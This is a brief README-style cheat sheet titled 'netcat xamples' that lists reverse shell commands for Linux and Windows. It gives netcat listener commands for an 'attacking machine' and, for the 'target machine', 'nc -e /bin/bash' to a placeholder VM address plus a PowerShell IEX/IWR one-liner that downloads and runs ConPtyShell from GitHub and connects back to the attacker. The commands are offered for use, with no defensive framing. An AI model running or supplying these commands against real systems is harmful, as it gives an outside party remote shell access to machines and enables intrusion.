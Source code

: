 # netcat xamples

## Reverce shell attack

### Attack Linux

#### ATTACKING machine

`nc -lnvp 87 -s ip-address-of-your-cloud-vm`

#### TARGET machine

```
nc -e /bin/bash ip-address-of-your-cloud-vm
OR
nc ip-address-of-your-cloud-vm
```

### Attack Windows

#### ATTACKING machine

`stty raw -echo; (stty size; cat) | nc -lvnp 87`

#### TARGET machine

`IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell ip-address-of-your-cloud-vm 87`
